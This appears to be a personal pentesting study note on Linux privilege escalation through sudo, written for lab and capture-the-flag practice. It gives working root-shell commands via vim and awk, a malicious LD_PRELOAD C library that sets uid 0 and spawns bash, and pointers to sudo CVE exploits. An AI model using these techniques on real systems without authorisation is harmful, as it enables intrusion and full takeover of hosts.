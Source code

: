 # Escalation via Sudo

## Sudo Shell Escaping

- `sudo -l` will show us commands delegated to our user. See example of possible output below  
![image](https://user-images.githubusercontent.com/96747355/167295677-4b615420-f012-4bb7-992c-b03ab924f8b8.png)  
- With the result of the command we can then check out on [GTFOBins](https://gtfobins.github.io/) for comprehensive ways to escalate

### Vim

- [Vim on Gtfobins](https://gtfobins.github.io/gtfobins/vim/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295801-e9cab3c9-62e5-4a46-90f3-ff62498f4e57.png)  
- Let's try this command `sudo vim -c ':!/bin/sh'`
- It works right away  
![image](https://user-images.githubusercontent.com/96747355/167295851-cd5dd86e-3dc6-49b3-9c32-6846a32f857d.png)  

### awk

- [Awk on GTFOBins](https://gtfobins.github.io/gtfobins/awk/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295996-a55b8fce-b27f-421a-958a-18646b7c828d.png)  
- So let's try this `sudo awk 'BEGIN {system("/bin/sh")}'`
- It works  
![image](https://user-images.githubusercontent.com/96747355/167296030-dd82bef4-4640-4ded-8357-0b2f32ca9638.png)

## Resources

{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} Linux Privesc on TCM-Security Academy {% endembed %}

## Intended Functionality

### Example with Apache2

- `sudo -l` we should see this: `(root) NOPASSWD: /usr/sbin/apache2`
- *Note: There are no entry on GTFOBins about apache2 but Google can do the trick ;) We could type something like "sudo apache2 privilege escalation"*
- Then we find an [article](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/) that mentions this command to let us view system files.

### Example with wget

- See [here](https://veteransec.org/hack-the-box-sunday-walkthrough/) an example with wget on veteransec's writeup of the HTB box called sunday.

## LD_PRELOAD

- `sudo -l` we should see something like this `env_keep+=LD_PRELOAD`
- We are going to preload a user specific share library before any other share libraries
- We need to write our malicious library that will privesc for us by changing our gid and uid to 0 (root). We put this code in a file named x.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- now we need to compile our library with gcc `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
- And now we need to set it as our user's preloaded library `sudo LD_PRELOAD=/tmp/x.so apache2`
- We should be root  
![image](https://user-images.githubusercontent.com/96747355/167297390-ce9c76ed-72c5-4bfb-bea9-9b380478cb9d.png)  

## CVE-2019-14287

- [CVE-2019-14287 on exploit-db](https://www.exploit-db.com/exploits/47502)
- This vulnerability allows us to change our user id, we need to have some sudo rights delegated to us this works very well with right on `/bin/bash`
- Checkout [here](../writeups/THM-SudoSecurityBypass.md) a writeup of an example of exploitation

## CVE-2019-18634

- [CVE-2019-18634 exploit by saleemrashid](https://github.com/saleemrashid/sudo-cve-2019-18634)
- This one is a buffer overflow
- If we see that we have password feedback on (we can try any sudo command to check for this), it means that the option `pwfeedback` is turned on in `/etc/sudoers` and that makes it vulnerable to buffer overflow
- We basically just need to run the provided exploit. Pour pratice on this check out [this box](https://tryhackme.com/room/sudovulnsbof) on trhyhackme
